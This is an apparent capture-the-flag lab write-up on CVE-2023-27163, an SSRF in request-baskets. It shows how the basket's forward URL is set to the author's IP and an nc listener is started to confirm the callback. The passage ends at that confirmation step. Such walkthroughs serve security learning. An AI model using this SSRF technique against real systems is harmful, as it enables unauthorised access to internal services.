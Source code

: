 ## Task 4

What is the 2023 CVE ID for a Server-Side Request Forgery (SSRF) in this version of request-baskets?

## Solution 4

The vulnerability for this version of the request-basket is `# CVE-2023-27163`.

------------

## Task 5

What is the name of the software that the application running on port 80 is "powered by"?

## Solution 5

We can't directly access the site at this port, as it was also shown on the `nmap` scan, it is `filtered`.

But when I read more about the vulnerability from the `Task 4` it says that exploiting it, it will enable to forward HTTP requests to an internal/private HTTP service. 

So, I can use this to access the port 80.

First let's test it if it works.

We create a new basket on the web-page, and then create to that basket, and click on the `settings` icon.

There we see an option to `Forward URL` and put there our ip with the port 4444.

Start a listening service:

```sh
nc -nlvp 4444
```

Then on the web-page there is a link to the basket. In my case it was `http://10.10.11.224:55555/jl16p9c`, and when I visit that, I see the request on my listening service.

```sh
nc -nlvp 4444
Connection from 10.10.11.224:41240
GET / HTTP/1.1
Host: 10.10.14.37:4444
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Priority: u=0, i
Upgrade-Insecure-Requests: 1
X-Do-Not-Forward: 1
```
